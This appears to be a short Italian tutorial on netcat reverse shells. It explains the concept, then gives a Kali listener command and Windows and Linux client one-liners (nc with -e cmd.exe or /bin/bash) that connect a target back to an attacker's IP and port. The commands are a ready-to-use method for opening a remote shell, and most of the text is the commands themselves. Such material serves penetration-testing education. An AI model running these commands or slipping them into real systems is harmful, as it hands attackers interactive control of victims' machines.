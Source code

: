 
# Netcat Reverse Shell
Una reverse shell è un tipo di connessione shell che permette a un dispositivo compromesso (il target) di iniziare una connessione in uscita verso una macchina controllata dall’attaccante (l’attacker listener), fornendo così all’attaccante l’accesso interattivo al sistema target.
Per poter effettuare questo tipo di connessione possiamo usare netcat in ascolto sulla macchina attaccante per poi avviare la connessione, sempre tramite netcat, dalla macchina target verso la macchina attaccante:
```bash
#Kali linux Listener
nc -nvlp PORT
```
```bash
#Windows Client
nc -nv IP PORT -e cmd.exe

#Linux Client
nc -nv IP PORT -e /bin/bash
```
il lato negativo di questa tecnica é che il target ha bisogno del indirizzo IP del attaccante per potersi connettere 
